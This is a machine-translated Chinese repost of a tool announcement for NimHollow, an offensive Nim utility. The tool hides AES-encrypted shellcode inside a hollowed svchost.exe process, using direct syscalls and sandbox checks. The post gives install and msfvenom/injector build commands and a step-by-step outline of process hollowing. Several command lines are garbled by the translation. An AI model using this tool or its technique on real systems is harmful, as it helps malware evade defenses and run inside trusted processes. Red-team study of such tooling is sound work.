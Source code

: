 # NimHollow:使用 Syscalls (PoC)实现进程中空化的 Nim 实现

> 原文：<https://kalilinuxtutorials.com/nimhollow/>

[![](img//b9a17ea9ccf8d17d2e723937745adc79.png)](https://blogger.googleusercontent.com/img/a/AVvXsEi-1h5dPynTWXAVczH4oTvhHPa-d15HSaWBZ3m8VsjtJvkgiwtdCukveALv9XKH-_xyInq9A3hh_J_9FECtocOWFivd500eiLmbRk3DeXiCz2YAyoQ5feMDAuZpwbIYQ1BSxqN4bcss7XNfcTL6c6TO_1O-iQ1rFADq4NxOX7nVcKxy70b6QhcBkn8j=s728)

NimHollow 是使用 Syscalls (PoC)的进程中空化的 Nim 实现。用 Nim 玩工艺镂空技术。

**特性**

*   使用 NimlineWhispers 或 NimlineWhispers2 触发 Windows 本机 API 函数的直接系统调用。
*   在 CTR 模式下使用 AES 进行外壳代码加密/解密。
*   简单的沙盒检测方法，来自@offensive-security 的 OSEP 课程。

**免责声明。**本库中包含的所有信息仅用于教育和研究目的。作者对该工具的任何非法使用不负任何责任。

**用法**

**安装**

**~ $ git clone–recurse-submodules https://github.com/snovvcrash/NimHollow&&CD nim hollow
~ $ git submodule update–init–recursive
~ $ nimble install winim nim crypto
~ $ pip 3 install-r requirements . txt
~ $ sudo apt install upx-y**

**例子**

**~ $ MSF venom-p windows/x64/messagebox TITLE = ' MSF ' TEXT = ' Hack the Planet！'exit func = thread-f raw-o shellcode . bin
~ $ python 3 nim hollow . py shellcode . bin-I ' C:\ Windows \ System32 \ svchost . exe '-o injector–upx–RM[–whispers 2]
~ $ file injector.exe
injector . exe:PE32+可执行文件(控制台)x86-64(剥离到外部 PDB)，用于 MS Windows**

**帮助**

**用法:Nim hollow . py[-h][-I IMAGE][-o OUTPUT][–whispers 2][–debug][–upx][–RM]shellcode _ bin
位置参数:
shellcode_bin 原始 shellcode 文件的路径
可选参数:
-h，–help 显示此帮助消息并退出
-i IMAGE，–IMAGE
将图像处理为中空(默认为“C:\ Windows \ System32 \ svchost . exe”)
-o**

**在载玻片上加工镂空**

1.创建处于挂起状态的目标进程(如`**svchost.exe**`)。

![](img//4e511557620e62e2529dcfd8a56c720e.png)

2.查询创建了从 PEB 提取其基址指针的进程( **P** 进程 **E** 环境 **B** 锁)。

![](img//762ae35e2b15f5f3f0407f2179ed13a5.png)

3.读取映像基址指针*指向的 8 字节内存(64 位架构),以获取映像基址的实际值。*

![](img//44c26b948ea78ccdab2a7adb0b8639da.png)

4.读取加载的 EXE 映像的 0x200 字节，并解析 PE 结构以获取入口点地址。

![](img//6a1e7ad1fda6e4fe58a5ba999e93718c.png)

5.将外壳代码写入入口点地址，并恢复线程执行。

![](img//4ff725ee9ff7ab2eb34db37c1d1ca374.png)[**Download**](https://github.com/snovvcrash/NimHollow)